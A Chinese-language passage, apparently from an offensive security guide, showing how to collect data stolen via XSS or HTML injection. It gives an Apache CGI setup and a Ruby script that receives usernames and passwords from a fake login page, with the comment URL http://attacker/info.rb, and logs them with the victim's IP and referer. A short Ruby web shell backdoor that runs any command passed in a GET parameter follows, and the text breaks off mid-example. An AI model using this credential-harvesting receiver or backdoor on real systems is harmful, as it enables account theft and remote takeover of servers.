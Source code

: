 ### 获取信息 - 来自 XSS/HTMLi 攻击

当你利用 XSS 或 HTML 注入时，可能需要从被攻击用户那里接收到 grepped 数据传输到你的外部服务器。这里有一个简单的 CGI 脚本示例，接收从伪登录发送的 get 请求，要求用户输入用户名和密码，然后将数据存储到`hacked_login.txt`文本文件中，并修复其权限以确保没有人可以从公共访问该文件。

将以下内容添加到`/etc/apache2/sites-enabled/[SITE]`，然后重新启动服务

```
<Directory /var/www/[CGI FOLDER]>
        AddHandler cgi-script .rb
        Options +ExecCGI
</Directory> 
```

现在，将脚本放在`/var/www/[CGI FOLDER]`中。现在你可以使用它了。

```
#!/usr/bin/ruby
# CGI script gets user/pass | http://attacker/info.rb?user=USER&pass=PASS
require 'cgi'
require 'uri'

cgi  = CGI.new
cgi.header  # content type 'text/html'
user = URI.encode cgi['user']
pass = URI.encode cgi['pass']
time = Time.now.strftime("%D %T")

file = 'hacked_login.txt'
File.open(file, "a") do |f|
  f.puts time   # Time of receiving the get request
  f.puts "#{URI.decode user}:#{URI.decode pass}"    # The data
  f.puts cgi.remote_addr    # Remote user IP
  f.puts cgi.referer    # The vulnerable site URL
  f.puts "---------------------------"
end
File.chmod(0200, file)  # To prevent public access to the log file

puts "" 
```

### Web Shell^(1) - 通过 GET 执行命令

如果你有一个支持 Ruby CGI 的服务器，你可以使用以下内容作为后门

```
#!/usr/bin/env ruby
require 'cgi'
cgi = CGI.new
puts cgi.header
system(cgi['cmd']) 
```

现在你可以简单地使用 web 浏览器、Netcat 或 WebShellConsole^(1)来执行你的命令。例如**浏览器**
